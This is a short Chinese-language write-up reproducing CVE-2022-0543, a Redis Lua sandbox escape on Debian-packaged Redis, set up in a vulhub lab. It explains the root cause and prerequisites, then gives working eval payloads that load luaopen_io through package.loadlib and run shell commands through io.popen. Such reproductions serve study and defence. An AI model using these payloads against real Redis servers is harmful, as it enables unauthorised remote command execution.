 # 0x01 原理浅析
Debian及其衍生版打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象中的loadlib函数来加载动态链接库/usr/lib/x86_64-linux-gnu/liblua5.1.so.0中的导出函数luaopen_io，执行这个导出函数获得io库，最后使用其执行命令，作者提到不同系统下liblua5.1.so.0的路径可能不同，所以需要在本地对照一下，，，吐槽一句，不能打红帽系有点鸡肋了......

# 0x02 先决条件
01、未授权访问或拿到账号密码  
02、目标为Debian及其衍生版  

# 0x03 漏洞复现
使用p牛的vulhub搭建环境：https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543  
搭建好的环境是redis 5.0.7，且存在未授权访问  
执行如下payload  
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("uname -a", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![image](./pic/01.png)  

# 0x04 参考文章
https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce  
https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543  